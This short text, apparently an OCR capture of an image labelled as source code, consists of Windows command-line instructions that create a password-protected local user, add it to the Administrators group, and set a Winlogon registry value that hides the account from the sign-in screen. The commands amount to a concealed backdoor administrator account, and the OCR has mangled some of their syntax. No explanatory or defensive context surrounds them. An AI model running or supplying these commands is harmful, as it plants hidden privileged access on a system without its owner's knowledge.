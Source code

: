 net user Aminshahdi @Gddrgddgg0070 /add

net localgroup Administrators Aminshahdi/add

reg add

"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist"

/v Aminshahdi/t REG

DWORD /d

0/f
